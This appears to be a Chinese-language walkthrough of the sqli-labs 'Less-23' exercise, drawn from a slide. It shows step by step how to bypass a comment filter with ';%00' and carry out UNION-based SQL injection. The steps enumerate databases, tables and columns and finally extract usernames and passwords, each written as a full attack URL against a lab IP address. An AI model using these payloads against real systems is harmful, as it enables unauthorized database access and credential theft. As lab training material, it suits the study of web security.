

# Less-23_02
法一：;%00
在这里可以使用另外一种特殊的注释符   ;%00 通过这个注释符可以判断列数
除了在url末尾将--+、# 替换为 ;%00   其余的均和less01关相同。
1. http://121.199.30.46/Less-23/?id=1 返回正常
2. http://121.199.30.46/Less-23/?id=1’ 返回异常，说明可能存在漏洞
3. http://121.199.30.46/Less-23/?id=1’ --+  或者http://121.199.30.46/Less-23/?id=1’ # 均返回错误，通过源代码分析，我们得知--+    #  都被替换为了空格，这里使用      ;%00充当注释符
4. http://121.199.30.46/Less-23/?id=1‘  order by 3  ;%00 查多少列
5. http://121.199.30.46/Less-23/?id=-1’  union select 1,2,3    ;%00   查找回显位置
6. http://121.199.30.46/Less-23/?id=-1‘  union select 1,2, group_concat(schema_name) from    information_schema.schemata    ;%00 查库名
7. http://121.199.30.46/Less-23/?id=-1‘  union select 1,2, group_concat(table_name) from  information_schema.tables where table_schema = 0x7365637572697479    ;%00  查表名
8. http://121.199.30.46/Less-23/?id=-1‘  union select 1,2, group_concat(column_name) from information_schema.columns where table_name = 0x7573657273   ;%00 查字段名
9. http://121.199.30.46/Less-23/?id=-1‘  union select 1,2, group_concat(concat_ws(0x7e,username,password)) from security.users   ;%00 查出字段中所有的值